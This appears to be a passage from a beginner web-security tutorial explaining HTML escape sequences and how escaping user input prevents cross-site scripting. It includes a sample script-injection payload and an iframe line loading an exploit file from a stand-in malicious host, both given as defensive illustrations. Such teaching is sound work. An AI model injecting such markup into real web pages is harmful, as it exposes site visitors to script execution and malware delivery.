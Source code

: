 Here are some examples of escape sequences:

```
Character				Escape sequence
Double quotes:	"		&quot;
Greater than:	>		&gt;
Less than:	<		&lt;
Apostrophe:	'		&apos;
Ampersand:	&		&amp;
Nonbreak space: 		&nbsp;
```

Keep in mind that non-breaking space is not the same as regular space.

To understand escaping, imagine that a user posts this comment on your website:

<script>alert('XSS');</script>

If you didn’t escape it, then someone who browses the site would see this:
 
![xss](https://github.com/0x416c616e/intro_to_security/blob/master/02_web_security/xss.png)
 
But if you escaped it, it would look like this in the browser:

<script>alert('XSS');</script>

You would see the text, but it would not run as JavaScript.

And if you looked at the page source, you’d see this:

```
&lt;script&gt;alert('XSS');&lt;/script&gt;
```

Escaping is important for protecting against XSS. There’s more to XSS than just escaping though.

But although JavaScript is bad, in the past, back when more people used Flash in their browsers, an attacker could do something like this instead:

```
<iframe src="evilwebsite.com/exploit.swf"></iframe>
```

Flash-based exploit kits were usually more capable than JavaScript, and they were commonly used to deliver ransomware. And in the generation before it, Java drive-bys were used to deliver RATs and keyloggers. But even though unescaped JavaScript from XSS isn’t as bad as previous generations of browser-based malware, JavaScript can still be bad. There are even some more obscure JS-based exploits that can lead to code execution. So always escape user input.
